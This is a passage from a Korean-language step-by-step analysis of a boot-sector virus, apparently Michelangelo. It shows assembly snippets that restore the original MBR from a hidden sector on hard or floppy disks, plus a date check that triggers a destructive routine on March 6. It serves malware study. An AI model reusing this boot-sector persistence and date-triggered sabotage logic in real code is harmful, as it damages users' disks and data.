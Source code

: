 **⭐ STEP 9**  
아래 코드는 감염여부를 따져 감염되었다면 정상부팅을, 감염되지 않았다면 디스크 종류에 따라 코드진행을 다르게 한다. 하드디스크일 경우에만 메모리 MBR을 원래대로 복구한다.
``` asm
entervirus
			...
		push    cs
		pop     ds
		mov     ax,201h
		mov     bx,7C00h
		mov     cx,firstsector
		cmp     cx,7
		jne     floppyboot
		mov     dx,80h
		int     13h
		jmp     short exitvirus
```
* cs를 백업한다.
* 스택에서 cs값을 꺼내 ds에 넣는다. ds도 현재 위치(여분공간)의 세그먼트를 가리킨다.
* ax에 201h를 넣는다. 인터럽트 13번의 2번함수를 가리키며, 읽을 섹터를 1개로 지정한다.
* bx에 메모리 MBR의 오프셋을 넣는다.
* cx에 현재 장치의 종류를 구분할 수 있는 번호를 넣는다
* cx를 7과 비교한다.(7은 하드디스크)
* 하드디스크가 아니라면 floppyboot로 분기하여 다른 처리를 한다. 하드디스크가 맞다면 하드디스크는 이미 감염되어있으므로 프로세스를 마무리한다.
* dx에 80h를 넣는다.
* 인터럽트 13번의 2번함수를 통해 HDD(80h)를 CHS(0,0,7)부터 1개의 섹터를 메모리 MBR(ES:BX)에 읽어 원본MBR을 복구한다.
* exitvirus를 통해 정상부팅을 시작한다.

**⭐ STEP 10 - 하드디스크**  
하드디스크일 경우 exitvirus로 빠지게 된다. 이 로직에서는 오늘 날짜를 구해 3월 6일이 아니라면 정상부팅을 진행하고, 3월 6일이면 공격을 시작한다.
``` asm
exitvirus:
		xor     cx,cx
		mov     ah,4
		int     1Ah
		cmp     dx,306h
		je      damagestuff
		retf
```
* cx를 초기화한다(?)
* ah에 4를 넣어 인터럽트 1Ah의 4번함수를 지정한다.
* 인터럽트 1Ah의 4번 함수를 통해 실제 시간을 불러온다.
* 리턴값 중 dx에 담긴 월,일 정보를 가져와 306h(3월 6일)과 비교한다.
* 3월 6일이 맞다면 damagestuff로 분기하여 공격을 시작한다.(공격 어셈은 후반부에 설명)
* 3월 6일이 아니라면 아무 공격 없이 정상 부팅을 진행한다.

**⭐ STEP 10 - 플로피디스크 - 1**  
step 9에서 플로피디스크로 판단이 되면 아래 로직으로 넘어온다. 아래 코드는 메모리 MBR을 원래대로 복구하는 과정이다.
``` asm
floppyboot:
		mov     cx,firstsector
		mov     dx,100h
		int     13h
		jc      exitvirus
```
* cx에 현재 장치를 구분하는 값을 넣는다.
* dx에 100h를 넣어 1번 헤드를 가리킨다.
* 인터럽트 13번의 2번함수를 통해 360K 플로피 디스크 CHS(0,1,3) 또는 그 외 플로피 디스크 CHS(0,1,0E)로부터 1개의 섹터를 메모리 MBR(ES:BX)에 읽어 원본MBR을 복구한다.
* 실패하면 Carry 플래그를 체크하여 exitvirus로 분기하여 악성코드를 종료한다.
